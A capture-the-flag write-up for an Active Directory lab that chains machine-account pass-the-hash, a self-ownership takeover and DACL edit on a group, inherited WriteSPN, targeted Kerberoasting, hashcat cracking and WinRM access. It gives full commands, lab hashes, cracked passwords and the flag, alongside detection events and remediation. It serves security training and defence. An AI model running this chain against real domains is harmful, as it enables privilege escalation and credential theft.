**Category:** DACL | **Difficulty:** Medium | **Flag:** <details><summary>reveal</summary><code>EPI{0wn3rsh1P_r3M4n493m3N7}</code></details>

**Primary Technique(s):** Pass-the-Hash (T1550.002); DACL abuse —
`WriteOwner` self-ownership takeover + `WriteDacl` (T1098); inherited
`WriteSPN` → Kerberoasting (T1558.003)

> Description: *"Turns out, machines can do some serious damage as well!
> Find out those special privileges with bloodhound!"*

Working log: `challenges/rise-of-the-machines.md`. Related write-ups:
[Catastrophic Failure](../catastrophic_failure/catastrophic_failure_tech.md)
(source of the `ARGOS$` machine-account hash this chain depends on) and
[Service Changer](../service_changer/service_changer_tech.md) (the same
targeted-Kerberoasting technique used in the final stage here, originally
demonstrated via a user-held `WriteSPN` ACE rather than an inherited one).

## Executive Summary

Every prior DACL-abuse finding in this engagement involved an ACE held
directly by a *user* principal. This challenge's description ("machines
can do some serious damage") pointed at re-examining the domain-wide ACE
graph specifically for edges granted **to** a `Computer` object. That
search found `ARGOS$` (the ARGOS workstation's own machine account) holds
`WriteOwner` over a group, `COFFEE_USERS` — a custom, zero-member GPO
security-filtering group that itself holds `WriteSPN` over three user
accounts. Using `ARGOS$`'s own NTLM hash (incidentally captured during
the Catastrophic Failure LSA-secrets dump on ARGOS), ownership of
`COFFEE_USERS` was taken by `ARGOS$` itself — a direct third-party
ownership transfer attempt was correctly rejected by the DC, confirming a
real Windows security-descriptor rule. As the new owner, `ARGOS$` granted
a controlled user account (`a.nozer`) `WriteMembers` on the group via
`dacledit.py`, added `a.nozer` to it, and thereby inherited the group's
`WriteSPN` right over `b.pitt` — the one account among the group's three
`WriteSPN` targets not already claimed by another finding. A
targeted-Kerberoast of `b.pitt` (identical technique to Service Changer)
recovered a crackable password, which granted administrative WinRM
access to **SIRIUS** (`10.42.0.157`), where the flag was found directly.
This is the longest and most multi-stage ACL-abuse chain in the
engagement: machine-account credential reuse → self-ownership takeover →
DACL modification → group-membership addition → inherited ACE → targeted
Kerberoasting → offline crack → host access.

## Investigation & Technical Analysis

### Technical Incident Overview

Computer accounts (e.g. `ARGOS$`) are first-class Active Directory
security principals, identical in structure to user accounts, and can
hold ACEs over any other object just as a user can. Security reviews
routinely audit *user* ACEs but frequently overlook that a *machine's*
own identity can independently hold dangerous rights — rights that
become directly attacker-controlled the moment that machine's own
credential material is compromised (e.g. via local-admin LSA-secrets
access, as happened in the Catastrophic Failure finding). This
investigation specifically re-ran the domain-wide dangerous-ACE sweep
filtered to `PrincipalType: Computer`, a filter no prior session had
applied (every earlier sweep implicitly or explicitly restricted to
`User` principals).

### Scope & Methodology

- **Target domain:** HOUNDLABS.EPI, DC01 at `10.42.0.42`.
- **Starting access:** `ARGOS$`'s own NTLM hash, captured as a
  side-effect of the LSA-secrets dump performed on ARGOS in the
  Catastrophic Failure investigation — not separately obtained for this
  challenge. (The specific hash value rotates on lab reset; see the Live
  Reproduction Note below for the current value and how to re-derive it.)
- **Tools used:** raw BloodHound JSON analysis (filtered for
  `Computer`-sourced ACEs, rather than the `User`-sourced filter used
  elsewhere), `netexec` for credential validation, Impacket's
  `owneredit.py` (ownership transfer) and `dacledit.py` (DACL
  modification/backup/restore), `targetedKerberoast.py` for the
  inherited-`WriteSPN` Kerberoasting step, `faketime` for Kerberos
  clock-skew mitigation, `hashcat` for offline cracking,
  `scripts/spray-all.sh` and `evil-winrm` for the final access/flag
  retrieval.
- **Enumeration approach:** domain-wide ACE sweep filtered to ACEs
  granted *to* any `Computer` principal (not `User`) → ACL inspection of
  the discovered target group's own owner and outbound rights → chained
  DACL-abuse exploitation (ownership → DACL edit → membership → inherited
  ACE) → standard targeted-Kerberoast → crack → host×protocol validation
  sweep.
- **Evidence sources:** command output reproduced below;
  `challenges/rise-of-the-machines.md` (full working log, including the
  rejected direct-ownership-transfer attempt).

### Live Reproduction Note (2026-10-25)

This chain was re-run live against the lab to capture the screenshots
below. Two things diverged from the original 2026-09-16 session, both
worth recording rather than silently smoothing over:

- **The documented `ARGOS$` hash had gone stale.** The value originally
  recorded (`aaad22592a5fd93ef0836a27c103b9b0`) no longer authenticated
  — the same periodic credential-rotation behavior documented throughout
  this repo. Since `a.nozer`'s own credential and its local-admin access
  on ARGOS both still held, the fix was to simply re-dump ARGOS's LSA
  secrets and recover the *current* `ARGOS$` hash
  (`eac9ac0e95903f23199d6a3900a333ad`), rather than treating the stale
  value as a dead end.
- **`COFFEE_USERS`'s ownership, DACL grant, and group membership were
  already in their post-exploitation state** before this reproduction
  touched anything — `ARGOS$` was already the owner, and `a.nozer` was
  already a member holding `FullControl` (broader than the `WriteMembers`
  originally requested). This is leftover state from the prior session
  persisting across the credential-rotation reset (AD object
  ownership/ACLs apparently aren't reset the same way secrets are).
  **Two additional, undocumented members of `COFFEE_USERS` were also
  found**: `s.kuwel` and `pentester` — neither is part of this chain as
  documented, and their origin is unknown. `s.kuwel` in particular is a
  standing unexplained lead elsewhere in this repo (a local ANUBIS
  account with an unknown password); whether this is the same principal
  is not yet confirmed. Flagged here rather than silently incorporated
  into the narrative.

Because the ownership/DACL/membership state was already live, Steps 3–4
below were re-run to confirm they still behave identically (both are
idempotent — re-asserting self-ownership on an already-self-owned object
is harmless), but Steps 5–6 are illustrated with **read** operations
showing the current state rather than fresh **write** operations, to
avoid layering redundant ACEs onto an already-modified object.

### Attack Chain & Detailed Findings

**1. Computer-principal ACE discovery.** A domain-wide sweep filtered to
ACEs held by `Computer` objects (rather than `User`, the filter used in
every prior finding) found exactly one:

```
ARGOS$ --WriteOwner--> COFFEE_USERS (group, 0 current members)
```

`COFFEE_USERS` was already flagged as an item of interest in the
Instructions Unclear recon (noted there only for its membership, never
its own ACL). Inspecting its ACL and outbound rights:

```
Owner: BUILTIN\Administrators (default) — but WriteOwner is separately
       granted to ARGOS$, meaning ARGOS$ can change the owner despite
       not currently holding it.
COFFEE_USERS --WriteSPN--> B.PITT@HOUNDLABS.EPI
COFFEE_USERS --WriteSPN--> J.VABRE@HOUNDLABS.EPI
COFFEE_USERS --WriteSPN--> G.CLOONEY@HOUNDLABS.EPI
```

Cross-checking against the flags-found index: `j.vabre` and `g.clooney`
are already claimed via other findings (No Preauth Needed and Dangerous
Services respectively, both via direct routes unrelated to this group).
**`b.pitt` is untouched** — the clear target for this chain.

**2. Machine-account credential reuse (T1550.002 – Pass the Hash).**

```sh
netexec ldap 10.42.0.42 -u 'ARGOS$' -H aaad22592a5fd93ef0836a27c103b9b0
# [-] HOUNDLABS.EPI\ARGOS$:aaad22592a5fd93ef0836a27c103b9b0 (stale on reproduction)
```



Per the reproduction note above, this specific hash had rotated. Since
`a.nozer`'s own access was unaffected, the fix was to re-confirm that
access and re-dump ARGOS's secrets:

```sh
netexec smb 10.42.0.102 -u a.nozer -p 'F3nR1rS3c!'
```



```sh
netexec smb 10.42.0.102 -u a.nozer -p 'F3nR1rS3c!' --sam --lsa
```

<details><summary>SAM/LSA dump on ARGOS (spoiler — this capture also shows the unrelated Catastrophic Failure flag in plaintext)</summary>



</details>

```sh
netexec ldap 10.42.0.42 -u 'ARGOS$' -H eac9ac0e95903f23199d6a3900a333ad
# [+] HOUNDLABS.EPI\ARGOS$:eac9ac0e95903f23199d6a3900a333ad
```



`ARGOS$` is now usable for the DACL-abuse steps below (all subsequent
commands in this write-up use this current hash value, not the stale one
originally documented).

**2b. Reading current ownership before touching anything.** On
reproduction, rather than assume the object's state from the original
session still held, its current owner was read first:

```sh
owneredit.py -action read -target "COFFEE_USERS" HOUNDLABS.EPI/pentester:Password123! -dc-ip 10.42.0.42
```



This confirmed the owner was already `ARGOS$` from the original session
(see the Live Reproduction Note above) — Steps 3–4 below were still
re-run to confirm the underlying commands behave identically today.

**3. Rejected direct ownership transfer — a real AD security rule.**

```sh
owneredit.py -action write -new-owner 'a.nozer' -target 'COFFEE_USERS' \
  -hashes ':eac9ac0e95903f23199d6a3900a333ad' -dc-ip 10.42.0.42 'HOUNDLABS.EPI/ARGOS$'
# [-] Could not modify object: CONSTRAINT_ATT_TYPE on nTSecurityDescriptor
```



**Root cause of the rejection**: `WriteOwner` only permits the acting
principal to set ownership to **itself** (or a group it belongs to) —
transferring ownership to an arbitrary third-party principal requires
`SeRestorePrivilege`, which `ARGOS$` does not hold. This is a general
Windows/AD security-descriptor behavior, not a lab-specific quirk, and is
a necessary correction to the common assumption that `WriteOwner` grants
unrestricted ownership-assignment.

**4. Self-ownership takeover (T1098 – Account Manipulation).**

```sh
owneredit.py -action write -new-owner 'ARGOS$' -target 'COFFEE_USERS' \
  -hashes ':eac9ac0e95903f23199d6a3900a333ad' -dc-ip 10.42.0.42 'HOUNDLABS.EPI/ARGOS$'
# [*] Current owner: ARGOS$ (idempotent — already the owner from the prior session)
# [*] OwnerSid modified successfully!
```



`ARGOS$` is the owner of `COFFEE_USERS` — ownership of an AD object
inherently implies the right to modify its DACL, regardless of any
pre-existing explicit ACE. (The original 2026-09-16 run saw
`Current owner: Domain Admins` here, confirming the takeover away from
the domain default; on reproduction the owner was already `ARGOS$`, so
this command simply re-confirmed it rather than changing anything.)

**5. DACL state — read rather than re-written.** The original session's
command was:

```sh
dacledit.py -action write -rights WriteMembers -principal 'a.nozer' \
  -target 'COFFEE_USERS' -hashes ':aaad22592a5fd93ef0836a27c103b9b0' \
  -dc-ip 10.42.0.42 'HOUNDLABS.EPI/ARGOS$'
# [*] DACL backed up to dacledit-20260916-123723.bak
# [*] DACL modified successfully!
```

On reproduction this was **not** re-run (see the Live Reproduction Note
above) — instead the current DACL was read to confirm the grant was
still in place:

```sh
dacledit.py -action read -target "COFFEE_USERS" HOUNDLABS.EPI/pentester:Password123! -dc-ip 10.42.0.42
```



The relevant entries (full dump has ~36 ACEs; most are default AD
boilerplate present on every object and not shown here):

| ACE | Trustee | Rights | Note |
|---|---|---|---|
| 2 | Domain Admins | FullControl | Default baseline |
| 3 | `a.nozer` | FullControl | The escalation grant — broader than the `WriteMembers` originally requested |
| 4 | `ARGOS$` | FullControl | |
| 5 | `ARGOS$` | WriteOwner | The original entry-point ACE |
| 6 | `pentester` | FullControl | **Unexplained** — not part of this documented chain |
| 7 | Account Operators | FullControl | Standard built-in group, not exploited here |

`a.nozer`'s `FullControl` confirms it now has full membership-management
rights on `COFFEE_USERS`, which is why it was already a member by the
time this reproduction began. `pentester`'s direct `FullControl` grant
(ACE 6) is new information not reflected in the original working log —
its own access to this group doesn't derive from group membership alone,
it has an independent ACE.

**6. Group membership — already in place, confirmed by direct query.**
`a.nozer` is already a member of `COFFEE_USERS`, which means its security
token includes the group's SID and therefore inherits every right the
group itself holds — including `WriteSPN` over `b.pitt`, `j.vabre`, and
`g.clooney` — without any ACE being granted to `a.nozer` directly.

```sh
netexec ldap 10.42.0.42 -u pentester -p 'Password123!' --groups "COFFEE_USERS"
```



As flagged in the Live Reproduction Note, `s.kuwel` and `pentester` are
also members — neither is explained by this chain as documented.

**7. Targeted Kerberoasting via the inherited right (T1558.003 –
Kerberoasting).** Identical technique to the Service Changer finding,
but driven by an *inherited* rather than *directly held* `WriteSPN`:

```sh
faketime '+7 hours' /opt/tools/targetedKerberoast/venv/bin/python3 \
  /opt/tools/targetedKerberoast/targetedKerberoast.py \
  -d HOUNDLABS.EPI -u a.nozer -p 'F3nR1rS3c!' --dc-ip 10.42.0.42 -o b_pitt.hash
```

(Same `faketime`-can't-see-shell-aliases gotcha as every prior
Kerberos-ticket step in this engagement.) Returned `$krb5tgs$` hashes for
all three `WriteSPN` targets (plus `p.origan`, reachable via a separate
chain — see Service Changer) — only `b.pitt`'s was needed, the other
three being already claimed elsewhere:



```
$krb5tgs$23$*b.pitt$HOUNDLABS.EPI$HOUNDLABS.EPI/b.pitt*$...
```

**8. Offline cracking.**

```sh
hashcat -m 13100 -a 0 b_pitt.hash rockyou.txt
# b.pitt : coffeenowJH16!!
```



**9. Host×protocol access discovery.**

```sh
scripts/spray-all.sh b.pitt
# WinRM (admin) on SIRIUS (10.42.0.157)
```



SIRIUS is the same host that landed `d.folt` (Instructions Unclear) and
`g.clooney` (Dangerous Services) admin access — a recurring landing spot
for weak/cracked accounts in this lab, though (as established in earlier
write-ups) never a pattern that can be assumed in advance.

**10. Interactive access and flag retrieval.**

```sh
evil-winrm-py -i 10.42.0.157 -u b.pitt -p 'coffeenowJH16!!'
evil-winrm-py PS C:\Users\b.pitt\Documents> dir C:\Users\b.pitt\Desktop
# flag7.txt
evil-winrm-py PS C:\Users\b.pitt\Documents> type C:\Users\b.pitt\Desktop\flag7.txt
```



<details><summary>Flag (spoiler — click to reveal screenshot and value)</summary>



```
EPI{0wn3rsh1P_r3M4n493m3N7}
```

</details>

The flag directly names the technique that was the crux of the entire
chain — the `owneredit.py` self-ownership takeover.

**MITRE ATT&CK mapping:**

| Technique | ID | Step |
|---|---|---|
| Use Alternate Authentication Material: Pass the Hash | T1550.002 | Step 2 |
| Account Manipulation | T1098 | Steps 4–6 |
| Kerberoasting | T1558.003 | Steps 7–8 |
| Valid Accounts | T1078.002 | Steps 9–10 |
| Remote Services: Windows Remote Management | T1021.006 | Step 10 |

**Attacker operational security (would this have been flagged by a blue
team?):** This chain is the **most persistent-artifact-heavy** technique
in the engagement, and unlike Shadow Credentials or the self-cleaning
targeted-Kerberoast in Service Changer, nothing here reverts
automatically. The self-ownership takeover (Event ID `4662` with
`WriteOwner`) and the DACL modification granting `a.nozer` broad rights
(`4662` with `WriteDacl`, plus `4670` for the actual permission change)
both leave the object permanently in its post-attack state until someone
explicitly reverts it — which, as this write-up's own Cleanup Note
documents, **never happened**: `COFFEE_USERS`'s owner, DACL, and
membership are still sitting in their compromised state as of this
write-up's live reproduction, over a month after the original attack.
A real blue team doing even a cursory periodic review of
non-default-owner AD objects, or a BloodHound re-collection diffed
against a known-good baseline, would catch this immediately — the
window for this specific technique isn't measured in minutes like a
Kerberoast burst, it's measured in however long nobody looks. The
specific action that would make this noisy in real time, rather than
only on review, is a computer account performing a `WriteOwner`/`WriteDacl`
operation at all — this is an inherently unusual actor type for that
action (see Root Cause Analysis below), and alerting on it specifically
(rather than on user accounts doing the same) would have flagged this
chain at Step 4, before any of the downstream Kerberoasting even began.

### Root Cause Analysis

Two independent, compounding root causes:

1. **A computer account (`ARGOS$`) holds an unreviewed `WriteOwner`
   right over a domain group.** Machine accounts are rarely included in
   permission reviews, which typically focus on user and service
   accounts — this ACE was invisible to every prior sweep in this
   engagement because none had filtered for `Computer`-sourced edges.
2. **`COFFEE_USERS`, a GPO security-filtering group with zero actual
   members, retains a fully live and exploitable `WriteSPN` right over
   three user accounts.** An empty group is often assumed harmless and
   deprioritized for review — but its *permissions*, not its membership,
   are what determine its risk. Nothing about this group's emptiness
   reduced its actual attack value once any principal could join it.

Both conditions independently require review; either one alone would
have been sufficient to block this chain (removing `ARGOS$`'s
`WriteOwner`, or removing `COFFEE_USERS`'s `WriteSPN` rights/deleting the
unused group entirely).

### Indicators of Compromise

- **Source principal:** `ARGOS$` (machine account, ACE holder)
- **Pivot principal:** `a.nozer` (added to `COFFEE_USERS`, inherited
  `WriteSPN`)
- **Target group:** `COFFEE_USERS` (owner changed from `Domain Admins` to
  `ARGOS$`; DACL modified to grant `a.nozer` `FullControl`, broader than
  the `WriteMembers` originally requested)
- **Target/victim account:** `b.pitt` (Kerberoasted via inherited
  `WriteSPN`)
- **Compromised host:** SIRIUS, `10.42.0.157` (WinRM, admin-equivalent)
- **Credential set:** `b.pitt:coffeenowJH16!!`
- **Unexplained members:** `s.kuwel` and `pentester` are both current
  members of `COFFEE_USERS`, neither added by this documented chain —
  see the Live Reproduction Note above. Worth resolving before treating
  this finding as fully closed out.
- **Artifact:** `dacledit-20260916-123723.bak` — the pre-modification
  DACL backup referenced in the original session's output, needed to
  restore `COFFEE_USERS` to its original state. **Not found** on this
  container's filesystem during reproduction (searched `/workspace` and
  common paths) — either it was written to a different session's
  filesystem that no longer exists, or it was cleaned up. Restoration
  will need to be done by hand from the known-good ACL state (Domain
  Admins as sole owner, no `a.nozer`/`pentester` grants) rather than from
  this backup file.
- **Relevant Windows Event IDs (for detection, not observed in this
  lab):** Event ID `4774`/`5136` territory — specifically, `4662` (an
  operation was performed on an object) with the `WriteOwner` or
  `WriteDacl` access right on a group object is the key signature for
  Steps 4–5; Event ID `4728` (a member was added to a security-enabled
  global group) for Step 6; the standard Kerberoasting `4769` signature
  (RC4 ticket encryption) for Step 7.

## Impact Analysis

- **Severity (illustrative CVSS v3.1 vector):**
  `AV:N/AC:H/PR:L/UI:N/S:C/C:H/I:H/A:H` — **~8.5 (High)**. `AC:H` (high
  attack complexity) reflects the genuinely multi-stage nature of this
  chain compared to the engagement's other, more direct findings; `S:C`
  reflects the cascading scope change from a single machine-account
  credential into control of a group, then a user account, then a host.
- **Blast radius:** This finding demonstrates that compromising a single
  workstation's local admin rights (the Catastrophic Failure precondition)
  can cascade into domain-level group control via that workstation's own
  machine identity — a blast radius most assessments would not trace,
  since machine-account privilege is rarely modeled as attacker-reachable
  in the same way user privilege is. The specific group abused here
  (`COFFEE_USERS`) controls three accounts; a differently-scoped group
  with the same misconfiguration could control arbitrarily more.
- **Compounding factor:** this is the fourth independent credential
  compromise in this engagement traceable back to the original ARGOS
  local-admin foothold (alongside the LSA-secrets/AutoLogon flag,
  the Baton Passer pass-the-hash finding, and indirectly the broader
  theme of `a.nozer`'s weak onboarding password) — illustrating how many
  genuinely independent findings a single host compromise can ultimately
  enable once every angle (local secrets, machine-account identity, ACL
  graph) is examined.
- **Business/legal consequence:** machine-account ACL abuse is a less
  commonly audited attack surface than user-account ACL abuse in most
  commercial AD assessments, representing a genuine methodology gap this
  finding illustrates clearly — worth highlighting in any broader
  security program recommendation beyond this specific lab.

## Remediation & Recommendations

**Priority 1 — close the exposure:**
- Remove `ARGOS$`'s `WriteOwner` ACE on `COFFEE_USERS`; audit domain-wide
  for any other ACEs granted to `Computer` principals over groups or
  other sensitive objects.
- Restore `COFFEE_USERS`'s DACL from the pre-modification backup and
  reset its owner to `Domain Admins`; remove `a.nozer` from the group.
- Either remove `COFFEE_USERS`'s `WriteSPN` rights over its three target
  accounts, or delete the group entirely if it genuinely has zero current
  operational purpose (its zero-member state suggests it may be
  obsolete).
- Rotate `b.pitt`'s password.

**Priority 2 — detection:**
- Alert on Event ID `4662` for `WriteOwner`/`WriteDacl`-class operations
  performed by a computer account (as opposed to a user or recognized
  administrative service account) on any group or OU object — an
  inherently unusual and high-signal event.
- Alert on group membership changes (`4728`/`4732`) to any group holding
  further downstream ACEs (`WriteSPN`, `GenericWrite`, etc.) over other
  principals, since membership changes to such groups are functionally
  equivalent to a privilege grant.

**Priority 3 — structural:**
- Extend every ACL audit methodology used elsewhere in this engagement
  (Service Changer, Shadowy Technique, That's Not My Password) to
  explicitly include `Computer`-sourced ACEs, not just `User`-sourced
  ones — this was the single methodological gap that hid this entire
  chain from every prior sweep.
- Periodically review and decommission unused AD groups, especially any
  still holding meaningful outbound ACEs despite zero current members —
  treat "empty but privileged" as its own distinct risk category separate
  from "actively used and privileged."
- Apply the principle (shared with every other ACL finding in this
  engagement) that ownership and DACL-modification rights are
  functionally equivalent to whatever rights can subsequently be granted
  through them — review `WriteOwner`/`WriteDacl`/`GenericAll` grants with
  the same scrutiny as any directly dangerous ACE, since they are a
  generic path to acquiring one.

## Appendices

- **A. Command transcript:** computer-principal ACE sweep, machine-account
  LDAP authentication, the rejected and then successful ownership
  transfer, the DACL modification, the targeted-Kerberoast, offline
  cracking, host sweep, and flag retrieval — see Attack Chain section
  above for full commands and output.
- **B. Working log:** `challenges/rise-of-the-machines.md` (full session,
  including the rejected-ownership-transfer troubleshooting and the
  `targetedKerberoast.py` shell-alias gotcha already documented in
  Service Changer).
- **C. Related findings:**
  [Catastrophic Failure](../catastrophic_failure/catastrophic_failure_tech.md)
  (source of the `ARGOS$` machine-account hash this entire chain depends
  on) and [Service Changer](../service_changer/service_changer_tech.md)
  (the same targeted-Kerberoasting technique, there via a directly-held
  `WriteSPN` rather than an inherited one).
- **D. Cleanup note:** `COFFEE_USERS`'s DACL and owner were **not**
  restored during this reproduction — confirmed still in the
  post-exploitation state (`ARGOS$` owner, `a.nozer`/`pentester`
  `FullControl`, `s.kuwel`/`a.nozer`/`pentester` membership) as of
  2026-10-25. The backup file referenced in the original session
  (`dacledit-20260916-123723.bak`) could not be located on this
  reproduction's filesystem — restoration will need to be done manually
  (reset owner to `Domain Admins`, remove the `a.nozer`/`pentester` ACEs,
  remove all three members) rather than from that backup. Still
  outstanding hygiene, not required for the flag itself, but worth doing
  before final engagement close-out given the two unexplained members.
- **E. Screenshots:** terminal captures embedded inline above
  (`assets/01-stale-hash-rejected.png` through `assets/14-flag-retrieved.png`,
  captured 2026-10-25 during the live reproduction documented in the
  note above). A diagram of the full chain (machine-account hash →
  self-ownership → DACL edit → group membership → inherited WriteSPN →
  Kerberoast → crack → host access) is still TODO, given how multi-stage
  this finding is compared to the rest of the engagement.
